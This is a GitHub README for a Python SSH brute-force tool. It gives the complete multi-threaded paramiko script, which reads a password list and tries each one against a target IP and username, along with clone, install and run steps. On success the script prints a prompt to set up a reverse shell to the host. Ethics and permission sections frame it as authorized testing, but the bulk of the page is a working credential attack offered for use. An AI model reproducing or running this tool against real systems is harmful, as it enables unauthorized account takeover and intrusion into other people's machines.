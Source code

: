 # SSH Brute-Force Tool
<img src="https://i.imgur.com/ObZWqy6.png" alt="Explanation Brute Force Attack" width="100%" height="500px">

💻Brute Force Pen Testing systems for gaining control over system or computer commands 💻

## Description:
This project is a security tool designed to test the strength of passwords in a system by attempting to establish SSH connections using a list of provided passwords. Its primary aim is to help administrators identify and rectify weak passwords, thereby enhancing system security.

## :warning: Ethical & Legal Consideration
This tool is intended for educational and authorized testing purposes only. Unauthorized access to computer systems is illegal and unethical. Ensure you have explicit permission to perform testing on any system or network.

## :hammer_and_wrench: Features
- **Brute-Force Attack**: Attempts to establish SSH connections using a list of passwords.
- **Multi-Threading**: Uses threading to increase the speed of password testing.
- **User Input**: Takes user input for target IP, SSH username, and password file.
- **Output Coloring**: Provides colored terminal output for better readability.

## :gear: Dependencies
- `paramiko`: For automating SSH connections.
- `termcolor`: For coloring terminal output.
- `threading`: For utilizing multi-threading.

## :clipboard: Usage

1. Clone this repository.
   ```bash
   git clone git@github.com:bryanmax9/Brute_Force_SSH-Python.git
   cd Brute_Force_SSH-Python
   ```
2. Install the dependencies.
   ```bash
   pip install paramiko termcolor
   ```
3. Run the script.
   ```bash
   python bruteForce.py
   ```
4. Follow the on-screen prompts to enter the target IP, SSH username, and password file.

## :page_facing_up: Code

```python
import paramiko, sys, os, socket, termcolor
import threading, time

stop_flag = 0

def ssh_connect(password, code=0):
    global stop_flag
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    
    try:
        ssh.connect(host, port=22, username=username, password=password)
        stop_flag = 1
        print(termcolor.colored((f"👻 Succesful SSH connection using the password={password} with username={username}"), "green"))
        print("Now use this information to make a reverse shell to that IP with the user and password 👀")
    except:
        print(termcolor.colored((f"☠️ incorrect password={password} "), "red"))
    
    ssh.close()

if __name__ == '__main__':
    host = input("🐧IP address of the machine you want to BruteForce ssh: ")
    username = input("SSH Username: ")
    input_file = input("🔬Enter name of the file with passwords to try: ")

    if os.path.exists(input_file) == False:
        print(f"File with name {input_file} dosent exist 🫠")
        sys.exit(1)
    
    print(f'''
    🐧STARTING BRUTE FORCE🐧
    IP: {host}
    username: {username}
    cmd command:
    $ ssh {username}@{host}
    {username}@{host}'s password:
    ''')

    with open(input_file, "r") as file:
        for inLinePassword in file.readlines():
            if stop_flag == 1:
                t.join()
                exit()
            password = inLinePassword.strip()
            t = threading.Thread(target=ssh_connect, args=(password,))
            t.start()
            time.sleep(0.5)
```

## :bulb: Recommendations for Use
- **Permission**: Always obtain explicit permission before testing.
- **Notification**: Notify stakeholders about the testing and its potential impact.
- **Responsibility**: Use the tool responsibly to improve security.
- **Rate Limiting**: Implement rate limiting to prevent overwhelming the target system.
- **Logging**: Enable logging for tracking attempts and outcomes.
- **Testing Environment**: Initially, test the tool in a controlled and isolated environment.

## :shield: Security Practices
- Avoid exposing sensitive information.
- Regularly update dependencies to their latest secure versions.
- Validate user inputs and ensure password files contain valid passwords.

## :exclamation: Disclaimer
This tool is provided "as is", without warranty of any kind. It is to be used responsibly, ethically, and legally. The author is not responsible for any misuse or damage caused by this tool.


